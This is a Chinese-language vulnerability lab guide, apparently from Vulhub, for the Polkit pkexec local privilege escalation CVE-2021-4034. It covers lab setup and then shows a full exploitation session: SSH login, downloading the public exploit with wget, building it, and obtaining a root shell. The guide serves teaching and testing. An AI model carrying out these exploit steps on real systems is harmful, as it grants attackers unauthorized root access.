

# Polkit `pkexec` 权限提升漏洞（CVE-2021-4034）

Polkit（之前名为PolicyKit）是一个权限相关的套件，pkexec是其中用于以其他用户身份执行命令的工具，它具有suid权限。

当前版本的pkexec中没有正确处理参数和环境变量，导致攻击者可以利用这个Bug劫持环境变量`GCONV_PATH`，进而劫持动态链接库，以root身份执行任意代码。

参考链接：

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034
- https://xz.aliyun.com/t/10870

## 漏洞环境

> 说明: Linux内核在这个[commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)中修复了[`argc==0`的Bug](https://lwn.net/Articles/882799/)，而Docker环境会使用宿主机的内核，所以Vulhub采用的方案是在Docker容器中运行Qemu虚拟机，并在虚拟机中运行合适版本的Ubuntu操作系统。

你可以执行下面这条命令启动一个Ubuntu 20.04，其中包含Polkit 0.105版本套件：

```
docker-compose up -d
```

因为容器中运行了Qemu虚拟机，所以初始化需要消耗更长时间。你可以使用`docker-compose logs -f`查看运行时的日志，如果发现如下日志，说明初始化成功：



## 漏洞利用

首先，使用`ubuntu/vulhub`作为账号密码登录目标的SSH（端口是2222）：

```
ssh ubuntu@192.168.1.163 -p2222
```

然后使用[这个项目](https://github.com/berdav/CVE-2021-4034)来利用CVE-2021-4034：

```
ubuntu@ubuntu:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
ubuntu@ubuntu:~$ cd /tmp/
ubuntu@ubuntu:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2023-01-11 15:11:29--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2023-01-11 15:11:30--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘main.tar.gz’

main.tar.gz                                            [ <=>                                                                                                             ]   4.08K  --.-KB/s    in 0.003s

2023-01-11 15:11:30 (1.49 MB/s) - ‘main.tar.gz’ saved [4176]

ubuntu@ubuntu:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
ubuntu@ubuntu:/tmp$ cd CVE-2021-4034-main/
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd),1000(ubuntu)
```


上图可见，执行提权程序后，我们已经成为了root用户。
